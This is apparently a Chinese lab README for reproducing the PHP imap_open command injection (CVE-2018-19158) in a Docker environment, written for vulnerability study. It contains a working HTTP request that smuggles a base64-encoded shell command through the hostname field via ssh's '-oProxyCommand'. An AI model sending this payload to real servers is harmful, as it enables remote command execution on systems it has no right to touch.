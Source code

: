 # PHP imap 远程命令执行漏洞（CVE-2018-19158）

php imap扩展用于在PHP中执行邮件收发操作。其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

参考链接：

- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681

## 漏洞环境

执行如下命令启动一个包含漏洞的PHP环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看web页面。Web功能是测试一个邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

目标源码在[index.php](www/index.php)

## 漏洞复现

发送如下数据包即可成功执行命令`echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

执行`docker-compose exec web bash`进入容器，可见`/tmp/test0001`已成功创建：

![](1.png)